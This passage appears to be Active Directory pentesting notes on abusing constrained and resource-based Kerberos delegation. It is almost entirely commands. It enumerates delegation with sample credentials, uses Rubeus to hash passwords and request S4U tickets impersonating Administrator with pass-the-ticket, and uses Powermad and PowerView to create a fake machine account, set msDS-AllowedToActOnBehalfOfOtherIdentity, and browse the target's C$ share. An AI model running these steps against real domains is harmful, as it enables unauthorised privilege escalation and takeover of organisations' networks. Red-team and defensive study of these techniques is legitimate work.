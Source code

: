 First Enumerate for delegations [msds-AllowedToDelegateTo]

```
python3 findDelegation.py GEMY.local/fcastle:'Password123!' -dc-ip 192.168.68.132
```

Use Rubeus to create rc4_hmac

```
Rubeus.exe hash /user:username /password:password /domain:domain.local
```

Ask for TGS to delegate

```
Rubeus.exe s4u /user:username /rc4:X /impersonateuser:Administrator /domain:domain.local /msdsspn:SQLService.domain.local /ptt
```
##### Resource-Based

First Enumerate for delegations [GenericAll-GenericWrite]

```
python3 findDelegation.py GEMY.local/fcastle:'Password123!' -dc-ip 192.168.68.132
```

Then Create fake machine and set property [msds-allowedtoactonbehalfofotheridentity]

```
// Import Powermad and use it to create a new MACHINE ACCOUNT
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose

// Import PowerView and get the SID of our new created machine account
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid

// Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

// Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

//After using Rubues, Finally we can access the C$ drive of the target machine
dir \\TargetMachine.wtver.domain\C$
```

Use Rubeus to create rc4_hmac

```
Rubeus.exe hash /user:username /password:password /domain:domain.local
```
